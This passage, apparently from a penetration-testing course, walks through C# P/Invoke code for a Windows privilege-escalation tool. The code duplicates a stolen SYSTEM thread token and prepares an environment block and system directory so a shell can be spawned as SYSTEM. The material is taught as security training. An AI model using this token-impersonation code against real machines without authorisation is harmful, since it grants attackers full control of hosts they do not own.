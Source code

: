 Second, the _lpCurrentDirectory_ argument, which specifies the initial drive and working directory for our shell, also needs to be specified for the same reasons as explained above.

We can generate the values for these parameters with the _CreateEnvironmentBlock_[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5591-2) and _GetSystemDirectory_[3](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5591-3) APIs, respectively.

The function prototype for _CreateEnvironmentBlock_ is shown in Listing 23.

```
BOOL CreateEnvironmentBlock(
  LPVOID *lpEnvironment,
  HANDLE hToken,
  BOOL   bInherit
);
```

> Listing 23 - Function prototype for CreateEnvironmentBlock

_CreateEnvironmentBlock_ accepts three parameters. The first is _*lpEnvironment_, which is an output pointer to the created environment block. The second argument (_hToken_) is the user token. In our case, this is the SYSTEM token after the successful privilege escalation. The third (_bInherit_) is a flag to signal whether to inherit from the current process' environment. As the current process does not have an environment, we must set it to false.

The function prototype for _GetSystemDirectory_ shown in Listing 24 is even simpler.

```
UINT GetSystemDirectoryW(
  LPWSTR lpBuffer,
  UINT   uSize
);
```

> Listing 24 - Function prototype for GetSystemDirectoryW

_GetSystemDirectory_ accepts a string buffer (_lpBuffer_) that will be populated with the system directory along with the maximum allowed size (_uSize_) of the string.

Listing 25 shows the code for the DllImport statements taken from pinvoke.net[4](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5591-4),[5](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5591-5) along with their implementation in the code.

```
using System.Security.Principal;
...
[DllImport("advapi32.dll", SetLastError = true)]
static extern bool RevertToSelf();

[DllImport("kernel32.dll")]
static extern uint GetSystemDirectory([Out] StringBuilder lpBuffer, uint uSize);

[DllImport("userenv.dll", SetLastError = true)]
static extern bool CreateEnvironmentBlock(out IntPtr lpEnvironment, IntPtr hToken, bool bInherit);

static void Main(string[] args)
{
...
  OpenThreadToken(GetCurrentThread(), 0xF01FF, false, out hToken);
  DuplicateTokenEx(hToken, 0xF01FF, IntPtr.Zero, 2, 1, out hSystemToken);
  
  StringBuilder sbSystemDir = new StringBuilder(256);
  uint res1 = GetSystemDirectory(sbSystemDir, 256);
  IntPtr env = IntPtr.Zero;
  bool res = CreateEnvironmentBlock(out env, hSystemToken, false);
```